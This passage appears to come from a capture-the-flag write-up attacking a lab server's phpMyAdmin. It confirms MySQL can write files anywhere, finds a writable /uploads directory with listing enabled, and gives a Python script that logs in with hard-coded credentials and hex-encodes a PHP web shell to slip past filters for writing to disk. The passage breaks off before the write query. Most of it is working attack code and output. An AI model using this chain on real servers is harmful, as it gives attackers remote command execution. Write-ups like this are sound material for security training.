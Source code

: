 **Result**: `secure_file_priv` is empty, meaning we can write files anywhere!

### Discovering Writable Upload Directory

```bash
curl -s "http://172.19.4.10/uploads/"
```

**Output:**
```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /uploads</title>
 </head>
 <body>
<h1>Index of /uploads</h1>
  <table>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"><img src="/icons/back.gif" alt="[PARENTDIR]"></td>
<td><a href="/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr>
   <tr><th colspan="5"><hr></th></tr>
</table>
</html>
```

✅ **Directory listing enabled on `/uploads/` and it's writable!**

### Writing Web Shell Using MySQL

**Method: Using INTO DUMPFILE with Hex Encoding**

```python
#!/usr/bin/env python3
import requests
from bs4 import BeautifulSoup

url = "http://172.19.4.10/phpmyadmin/"
session = requests.Session()

# Login
resp = session.get(url)
soup = BeautifulSoup(resp.text, 'html.parser')
token = soup.find('input', {'name': 'token'}).get('value')

login_data = {
    'pma_username': 'pma_admin',
    'pma_password': 'SecurinetsPMA!2025',
    'server': '1',
    'target': 'index.php',
    'token': token
}
resp = session.post(url + 'index.php', data=login_data)

# Get SQL page token
resp = session.get(url + 'index.php?route=/sql')
soup = BeautifulSoup(resp.text, 'html.parser')
token = soup.find('input', {'name': 'token'}).get('value')

# Write shell using hex encoding to bypass filters
sql_url = url + 'index.php?route=/sql'
shell_code = "<?php echo shell_exec($_GET['c']); ?>"

# Convert to hex
hex_payload = shell_code.encode().hex()
```
